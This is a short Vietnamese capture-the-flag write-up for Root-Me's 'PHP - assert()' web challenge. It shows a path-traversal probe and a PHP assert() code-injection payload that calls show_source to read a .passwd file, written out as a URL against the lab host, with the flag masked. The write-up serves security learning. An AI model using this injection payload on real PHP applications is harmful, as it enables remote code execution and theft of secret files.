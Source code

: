 # WRITE UP

**Challenge:** [PHP - assert()](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)

Thử fuzz với payload: <http://challenge01.root-me.org/web-serveur/ch47/?page=../>

<img src="./media/image1.png" style="width:6.5in;height:0.81111in" alt="Graphical user interface, application Description automatically generated" />

Website sử dụng **assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");** để check xem yêu cầu tìm xem có file hay không, nếu lỗi thì hiện message. Như vậy, ta cần injecton hàm assert này. Tra cheat sheet ta có thể nhét BOOLEAN kèm theo để buộc thực thi với **die()** và để hiển thị source bằng hàm **show\_source()**:

**and die(show\_source('.passwd')) or '**

Lúc này payload có dạng:

assert("strpos(' ' **and die(show\_source('.passwd')) or** ' ', '..') === false") **or die("Detected hacking attempt!");**

**Payload:** <http://challenge01.root-me.org/web-serveur/ch47/?page=%27%20and%20die(show_source(%27.passwd%27))%20or%20%27>

<img src="./media/image2.png" style="width:6.5in;height:1.23125in" alt="Graphical user interface, text, application Description automatically generated" />

\- Flag: \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
